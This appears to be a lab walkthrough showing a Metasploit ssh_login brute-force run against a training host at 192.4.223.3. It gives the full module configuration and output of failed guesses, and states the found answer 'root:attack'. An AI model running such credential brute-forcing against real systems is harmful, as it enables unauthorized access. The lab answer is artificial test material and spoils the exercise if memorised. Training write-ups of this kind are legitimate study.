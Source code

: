Find the password of user “root” using ssh_login Metasploit module with userpass dictionary: /usr/share/wordlists/metasploit/root_userpass.txt

`root:attack`

```
msf5 > search ssh_login

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   1  auxiliary/scanner/ssh/ssh_login                          normal  Yes    SSH Login Check Scanner
   2  auxiliary/scanner/ssh/ssh_login_pubkey                   normal  Yes    SSH Public Key Login Scanner


msf5 > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.4.223.3
RHOSTS => 192.4.223.3
msf5 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
USERPASS_FILE => /usr/share/wordlists/metasploit/root_userpass.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
VERBOSE => true
msf5 auxiliary(scanner/ssh/ssh_login) > run

[-] 192.4.223.3:22 - Failed: 'root:'
[!] No active DB -- Credential data will not be saved!
[-] 192.4.223.3:22 - Failed: 'root:!root'
[-] 192.4.223.3:22 - Failed: 'root:Cisco'
[-] 192.4.223.3:22 - Failed: 'root:NeXT'
[-] 192.4.223.3:22 - Failed: 'root:QNX'
[-] 192.4.223.3:22 - Failed: 'root:admin'
```